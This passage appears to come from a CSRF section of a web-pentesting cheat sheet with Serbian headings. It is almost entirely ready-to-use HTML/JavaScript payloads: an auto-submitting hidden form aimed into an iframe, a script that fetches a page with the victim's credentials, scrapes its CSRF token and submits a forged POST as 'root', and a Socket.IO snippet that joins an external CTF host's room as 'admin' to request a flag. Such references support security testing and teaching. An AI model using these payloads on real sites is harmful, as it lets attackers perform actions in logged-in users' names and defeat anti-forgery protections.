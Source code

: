 ```html
<iframe id="frame2" name="frame2"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
<input type="text" name="username" value="z">
<input type="checkbox" name="status" checked="">
<input id="token" type="hidden" name="token" value="0000" />
<button type="submit">Submit</button>
</form>
```

### **Ukradi CSRF token pomoću Ajax-a i pošalji post zahtev sa formom**

```html
<body onload="getData()">

<form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
<input type="hidden" name="username" value="root"/>
<input type="hidden" name="status" value="on"/>
<input type="hidden" id="findtoken" name="token" value=""/>
<input type="submit" value="valider"/>
</form>

<script>
var x = new XMLHttpRequest();
function getData() {
x.withCredentials = true;
x.open("GET","http://google.com?param=VALUE",true);
x.send(null);
}
x.onreadystatechange = function() {
if (x.readyState == XMLHttpRequest.DONE) {
var token = x.responseText.match(/name="token" value="(.+)"/)[1];
document.getElementById("findtoken").value = token;
document.getElementById("form").submit();
}
}
</script>
```

### CSRF sa Socket.IO

```html
<script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
<script>
let socket = io('http://six.jh2i.com:50022/test');

const username = 'admin'

socket.on('connect', () => {
console.log('connected!');
socket.emit('join', {
room: username
});
socket.emit('my_room_event', {
data: '!flag',
room: username
})

});
</script>
```